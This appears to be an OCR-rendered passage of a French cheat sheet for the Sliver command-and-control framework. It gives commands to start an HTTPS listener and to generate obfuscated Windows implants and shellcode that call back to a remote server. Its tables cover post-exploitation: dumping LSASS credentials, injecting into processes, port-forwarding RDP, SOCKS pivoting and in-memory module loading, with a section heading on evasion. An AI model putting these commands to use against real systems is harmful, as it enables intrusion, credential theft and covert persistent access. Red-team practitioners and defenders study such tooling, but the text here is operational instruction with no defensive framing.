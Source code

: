 ```text
# 1. Démarrer un listener HTTPS
sliver > listener --name https443 --protocol https --lhost 0.0.0.0 --lport 443

# 2. Générer un implant Windows stageless
sliver > generate --os windows --arch amd64 --format exe --sleep 60s \
                  --http https://VPS:443 --branch stageless

# 3. Servir ou déposer le payload, puis attendre le callback :
sliver > implants
Accès Web UI par défaut : https://127.0.0.1:8888.

6 – Génération d’implants
Option	Explication
--os	windows, linux, darwin
--arch	amd64, arm64, 386, etc.
--format	exe, dll, service, shellcode, macho, elf
--staged / --stageless	Loader + stage ou binaire autonome
--sleep, --jitter	Profil OPSEC (temps, aléa)
--obfuscate	Active l’obfuscation compile-time
--reflective	Génère un loader Reflective DLL

Exemple shellcode brut :

bash

generate --os windows --arch amd64 --format shellcode \
         --mtls https://cdn.example.com --obfuscate
7 – Transports & Infrastructure C2
Transport	Port(s)	Caractéristique	Détection réseau
mTLS	443/tcp	Certificats client + serveur	faible (TLS)
HTTP/S	80/443	Proxy-friendly, URL aléatoires	moy.
DNS	53/udp	covert channel TXT/A	élevé
WireGuard	51820/udp	Tunnel VPN chiffré	faible
TCP	31337/tcp	Simple / Intranet	faible
namedpipes	–	Inter-processus Windows	locale

8 – Post-Exploitation
8.1 Commandes essentielles
Commande	Action
shell	Prompt interactif (/bin/sh, cmd.exe, pwsh)
screenshot	Capture d’écran PNG
migrate	Injection dans un autre PID
creds	LSASS dump + parsing
portfwd add 0.0.0.0 4444 10.0.0.5 3389	Port-forward RDP
pivot create socks5 9050	Proxy SOCKS interne

8.2 Modules Armory
GhostPack : Rubeus, Seatbelt, Certify…

BOF/COFF loader : exécution en mémoire de Cobalt Strike BOF.

.NET In-Memory : chargement d’assemblies sans toucher au disque.

9 – Extensibilité & Scripting
JavaScript/TypeScript – REPL intégré (js>) pour automatiser.

Python 3 – py> prompt (v1.6).

API gRPC – permet d’écrire des front-ends custom.

Armory – armory install sharpsploit compile et ajoute un module externe.

10 – OPSEC & Évasion
```
